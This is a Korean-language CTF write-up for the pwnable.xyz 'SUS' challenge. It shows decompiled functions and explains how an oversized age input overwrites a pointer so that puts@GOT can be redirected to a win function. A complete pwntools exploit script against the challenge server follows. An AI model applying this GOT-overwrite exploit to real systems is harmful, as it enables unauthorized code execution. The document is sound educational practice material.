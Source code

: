 ```yaml
---
title: "[pwnable.xyz]SUS"
date: 2020-1-28
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


64비트 바이너리고 PIE빼고 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

create_user함수에서는 s라는 변수를 동적할당해준 후 s 변수에 이름을 입력받아 cur이라는 전역변수에 주소를 저장한다. 전역변수에는 아마 heap주소가 들어갈거다.

```c
unsigned __int64 create_user()
{
  void *s; // [rsp+0h] [rbp-1060h]
  unsigned __int64 v2; // [rsp+1058h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( !s )
  {
    s = malloc(32uLL);
    memset(s, 0, 32uLL);
  }
  printf("Name: ", s);
  read(0, s, 32uLL);
  printf("Age: ", s, s);
  read_int32();
  cur = &s;
  return __readfsqword(0x28u) ^ v2;
}
```

여기는 출력해주는 곳이다.

```c
int print_user()
{
  int result; // eax

  result = cur;
  if ( cur )
  {
    printf("User: %s\n", *cur);
    result = printf("Age: %d\n", *(cur + 72));
  }
  return result;
}
```

Name과 Age를수정할 수 있다.

```c
unsigned __int64 edit_usr()
{
  __int64 v0; // rsi
  __int64 v1; // rbx
  unsigned __int64 v3; // [rsp+1018h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  if ( cur )
  {
    printf("Name: ");
    v0 = *cur;
    read(0, *cur, 32uLL);
    printf("Age: ", v0);
    v1 = cur;
    *(v1 + 72) = read_int32();
  }
  return __readfsqword(0x28u) ^ v3;
}
```

cur에는 포인터로 heap주소가 저장된다. 근데 age를 입력할 때 16개 이상 입력받게되면 이 포인터를 덮을 수 있다. 

그래서 age 입력받을 때 heap을 가르키는 포인터를 puts@got로 바꾸고 name을 edit할때 cur을 참조하는데 우리는 *cur에 puts@got로 덮어놨으니까 name입력받을 때 win의 주소로 넣으면 puts가 실행되면 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote("svc.pwnable.xyz", 30011)
win = e.symbols['win']
cur = 0x0000000000602268
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create_user(name,age):
	sa('> ','1')
	sa(': ',name)
	sa(': ',str(age))

def print_user():
	sa('> ','2')

def edit_user(name,age):
	sa('> ','3')
	sa(': ',name)
	sa(': ',str(age))

create_user('A', 1)
edit_user('B', 'C' * 16 + p64(e.got['puts']))
edit_user(p64(win), 1)

p.interactive()
```

